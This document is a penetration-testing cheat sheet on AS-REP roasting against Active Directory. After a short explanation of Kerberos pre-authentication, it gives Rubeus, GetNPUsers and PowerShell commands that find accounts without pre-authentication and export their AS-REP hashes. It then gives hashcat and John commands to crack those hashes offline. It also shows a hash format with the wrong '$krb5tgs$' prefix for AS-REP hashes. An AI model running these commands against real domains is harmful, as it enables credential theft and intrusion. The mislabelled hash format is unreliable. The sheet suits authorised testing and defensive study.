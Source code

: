 # Active Directory - AS_REP roasting

### Overview

An ASP_REP roasting attack is an attack on the `Kerberos` authentication
protocol that involves compromising the password of an user account that do not
require `Kerberos` pre-authentication.

The attack is based on the fact that the `KRB_AS_REP` response, in reply from
the `KDC (Key Distribution Center)` for an initial authentication request
`KRB_AS_REQ` to the `Authentication Service (AS)`, contains ciphertext
encrypted using the client's secret key.

By default, the `KRB_AS_REQ` must include a timestamp encrypted with the
client's secret key, in order to permit the verification of the user identity
before the `KDC` returns a `KRB_AS_REP` response. This verification is omitted
for user accounts that do not require `Kerberos` pre-authentication, i.e
accounts with the account property `DONT_REQ_PREAUTH`. These user accounts
secrets are exposed to offline cracking, against the ciphertext, attack that
are much faster and can not be time restricted.

### Automated DONT_REQ_PREAUTH user accounts discovery and export of AS-REP responses

The following tools can be used to automate the discovery of user accounts that
do not require `Kerberos` pre-authentication and the request and export of
`KRB_AS_REQ` response for offline cracking.

In order to enumerate the domain user accounts, `Rubeus` must be started in a
domain authenticated security context or provided working domain credentials.

```
Rubeus.exe asreproast /outfile:<FILE>
Rubeus.exe asreproast /format:john /outfile:<FILE>

Rubeus.exe asreproast /creduser:'<DOMAIN_FQDN>\<USERNAME>' /credpassword:'<PASSWORD>' /dc:<DC_HOSTNAME | DC_IP> /domain:<DOMAIN_FQDN> /outfile:<FILE_PATH>
```

### DONT_REQ_PREAUTH user accounts discovery

The following tools can be used to discover user accounts that do not require
`Kerberos` pre-authentication:

```
Get-ADUser -LdapFilter "(&(objectclass=user)(objectcategory=user)(useraccountcontrol:1.2.840.113556.1.4.803:=4194304))"
Get-ADUser -Server <DC_HOSTNAME | DC_IP> -Credential <PSCredential> -LdapFilter "(&(objectclass=user)(objectcategory=user)(useraccountcontrol:1.2.840.113556.1.4.803:=4194304))"

Get-NetUser -LdapFilter "(&(objectclass=user)(objectcategory=user)(useraccountcontrol:1.2.840.113556.1.4.803:=4194304))"
Get-NetUser -Server <DC_HOSTNAME | DC_IP> -Credential <PSCredential> -LdapFilter "(&(objectclass=user)(objectcategory=user)(useraccountcontrol:1.2.840.113556.1.4.803:=4194304))"
```

### Request and export of KRB_AS_REP responses

The following tools can be used to request and export `KRB_AS_REP` for user
accounts that do not require `Kerberos` pre-authentication:

```
Rubeus.exe asreproast /user:<USERNAME> /outfile:<FILE>
Rubeus.exe asreproast /dc:<DC_HOSTNAME | DC_IP> /domain:<DOMAIN_FQDN> /user:<USERNAME> /outfile:<FILE>

GetNPUsers.py '<DOMAIN>/' -usersfile <USERNAMES_FILE>
GetNPUsers.py '<DOMAIN>/' -dc-ip <DC_HOSTNAME | DC_IP> -usersfile <USERNAMES_FILE> -format john
```

### Offline cracking of KRB_AS_REP responses

Both `John the Ripper` (magnumripper fork) and `hashcat` can be used to crack
the `KRB_AS_REP` responses.

The hash needs to respect the following format to be recognized `hashcat`:

```
# ENCRYPTION_TYPE 23 = RC4
# ENCRYPTION_TYPE 17 = AES128
# ENCRYPTION_TYPE 18 = AES256

$krb5tgs$<ENCRYPTION_TYPE>$*<USERNAME>@<DOMAIN>:$85DA[...]
```

Depending on the tool used, the hash retrieved may need to be manually updated.

The following commands can be used to crack the `KRB_AS_REP` responses:

```
# Its recommended to use Hashcat on a Windows OS for better performance due to driver compatibility
hashcat64.exe -m 18200 -a 0 [-r <RULE_FILE>] '[<HASH> | <HASHFILE>]' <WORDLIST>

john --wordlist=<WORDLIST> <HASHFILE>
```
